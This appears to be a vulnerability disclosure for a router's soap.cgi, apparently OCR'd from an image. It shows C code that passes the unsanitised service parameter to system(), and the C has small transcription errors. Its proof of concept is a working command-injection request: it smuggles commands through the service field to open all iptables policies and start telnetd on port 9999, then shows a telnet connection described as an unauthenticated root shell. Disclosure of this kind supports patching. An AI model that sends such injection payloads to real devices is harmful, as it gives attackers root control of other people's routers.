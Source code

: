 It should be noted that you could insert and execute malicious commands without privilege, meanwhile the injection point is the service field which is passed to soap.cgi to indicate control type, this exploitation also works even if invalid SOAPAction and whatever XML stream in a request.

Here’s the code in C to show some details about this issue:

```c
/* Grab a pointer to the request url */
requri = getenv("REQUEST_URI");
/* goto failure if the urquri does not start with "?service=" */
if((query = strchr(requri, "?")) == NULL or strncmp(query, "?service=", strlen("?service=")))
{
    goto failure_condition;
}
/* Point the control type field pointer 9 bytes beyond the requri */ 
controlType = query + strlen("?service=");

... ...

/* Create/open a shell script using the specified control type string */
sprintf(filename, "%s/%s_%d.sh", "/var/run", controlType, getpid());
fn = fopen(filename "a+");
/* Write self-deleting command into the srcipt and execute it by "sh -c"*/
if(fn)
{
    fprintf(fn, "rm -f %s/%s_%d.sh", "/var/run", controlType, getpid());
    fclose(fn);
    sprintf(filename, "%s/%s_%d.sh", "/var/run", controlType, getpid());
    system(filename);
}
```

Proof of concept:

```
POST /soap.cgi?service=whatever-control;iptables -P INPUT ACCEPT;iptables -P FORWARD ACCEPT;iptables -P OUTPUT ACCEPT;iptables -t nat -P PREROUTING ACCEPT;iptables -t nat -P OUTPUT ACCEPT;iptables -t nat -P POSTROUTING ACCEPT;telnetd -p 9999;whatever-invalid-shell HTTP/1.1
Host: 192.168.100.1:49152
Accept-Encoding: identity
Content-Length: 16
SOAPAction: "whatever-serviceType#whatever-action"
Content-Type: text/xml

whatever-content

Here, we can easily build a soap http request and embed malicious command that spawns a telnet server on WAN that provides an unauthenticated root shell into it, and then login into router using telnet:
$ telnet 192.168.0.1 9999
Trying 192.168.0.1...
Connected to 192.168.0.1.
Escape character is '^]'.
```
